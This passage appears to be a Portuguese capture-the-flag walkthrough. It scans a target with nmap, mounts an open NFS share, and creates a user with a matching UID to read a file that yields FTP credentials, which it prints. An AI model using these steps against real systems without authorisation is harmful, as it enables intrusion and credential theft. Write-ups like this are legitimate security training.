 Scan de portas e serviços:

```bash
nmap -A $ALVO
```

**Serviços identificados:**

* **21/tcp** → FTP (vsftpd 3.0.3)
* **22/tcp** → SSH (OpenSSH 7.2p2)
* **80/tcp** → HTTP (Apache 2.4.18)
* **111/tcp, 2049/tcp** → NFS / rpcbind

---

## 📂 Exploração do NFS

```bash
showmount -e $ALVO
```

Output:

```
/mnt/share *
```

Monte o share:
```bash
mount -t nfs $ALVO:/mnt/share share
```

UID/GID esperado: **1003**
```bash
useradd hijack
usermod -u 1003 hijack
groupmod -g 1003 hijack
su hijack
```

Dentro do share:
```bash
ls
for_employees.txt
cat for_employees.txt
```

📌 Credenciais encontradas:  
```
ftpuser:W3stV1rg1n14M0un741nM4m4
```

---

## 📡 FTP

Acesso ao FTP com sucesso:
```bash
ftp $ALVO
```

